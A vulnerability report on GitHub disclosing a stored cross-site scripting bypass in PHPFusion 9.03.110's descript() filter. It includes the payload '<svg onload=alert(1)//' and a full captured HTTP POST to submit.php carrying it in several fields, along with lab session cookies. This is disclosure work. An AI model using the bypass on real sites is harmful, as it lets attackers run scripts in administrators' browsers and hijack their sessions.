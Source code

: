 **Describe the bug**

preg patterns filter html tag without "//"  in descript() function, the authenticated user can trigger xss by append "//" in the end of text
**Version**

PHPFusion version: PHPFusion 9.03.110

**To Reproduce**

Steps to reproduce the behavior:
1. Go to any textarea form
2. Add  "<svg onload=alert(1)//" in textarea form and submit 
3.  When authenticated user or admin use preview html function the malicious script will be executed, even the attacker can store malicious script when admin publish submission

**Screenshots**

preg pattern filter html tag without "//" in the end of html
![image](https://user-images.githubusercontent.com/54875703/130721129-2733e560-3302-442c-8fd8-ec59557a0b82.png)

User preview and submit submission
![image](https://user-images.githubusercontent.com/54875703/130721382-74cc71f0-ec15-4fcd-8f15-ab7601d92454.png)

Admin preview submission of user
![image](https://user-images.githubusercontent.com/54875703/130721482-76e7ad4f-af1e-4803-b8c1-6aa720aae9b2.png)

Admin publish submission and the attacker can store malicious script
![image](https://user-images.githubusercontent.com/54875703/130721666-01b34534-4473-482e-9f48-94e02e537793.png)

The Attacker can store malicious script in forum without admin browsing the post by post new thread function
![image](https://user-images.githubusercontent.com/54875703/130756240-75303e95-cb6c-43d7-b262-10655e868efd.png)
When admin click on Activity button, the script of user kietna will be executed
![image](https://user-images.githubusercontent.com/54875703/130756310-9d78c698-df24-494b-bf5c-62db8694e682.png)

**Additional context**

###REQUEST:
```
POST /submit.php?stype=a HTTP/1.1
Host: 172.16.0.12:5554
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 395
Origin: http://172.16.0.12:5554
Connection: close
Referer: http://172.16.0.12:5554/submit.php?stype=a
Cookie: PHPSESSID=qhclrgdoah7rbv9l34fvj07h00; fusiony1dli_session=jjfp12qmql4s64caf8ob6eld2t; fusiony1dli_visited=yes; usertbl_results=user_joined%2Cuser_lastvisit%2Cuser_groups; usertbl_status=0; fusiony1dli_user=1.1630015266.b9cf1c8d19231964f87b60503eb37b6cd23047438f61fe3b750f0d371a242ec6; fusiony1dli_admin=1.1630015307.2c32968c83f8c4c0224d5a0d4a0de496d62b98325c2754a38c3451087161671e; fusionc4q8w_session=j0gfm3ht612b5ktr55h9n2o1te; fusionc4q8w_visited=yes; fusionc4q8w_lastvisit=1629852584; fusionc4q8w_user=2.1630031855.2d2e26d63d89a73447202a9978b3ff81a084dae1acbddeeb4c6fd5de86f85469
Upgrade-Insecure-Requests: 1

fusion_token=2-1629861818-8b90d545094236c6cc3daa34012b16531afc70a7d12df00e8dba976f92f37e84&form_id=submissionform&fusion_wKs75X=&article_subject=%22%3E%3Csvg+onload%3Dalert%281%29%3B%2F%2F&article_keywords=&article_cat=1&article_language%5B%5D=English&article_snippet=%22%3E%3Csvg+onload%3Dalert%281%29%3B%2F%2F&article_article=%22%3E%3Csvg+onload%3Dalert%281%29%3B%2F%2F&preview_article=Preview
```

###RESPONSE:
```
HTTP/1.1 200 OK
Date: Wed, 25 Aug 2021 03:25:24 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
X-Powered-By: PHPFusion 9.03.110
Last-Modified: Wed, 25 Aug 2021 03:25:25 GMT
Cache-Control: no-cache
X-Content-Type-Options: nosniff
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 68868
```
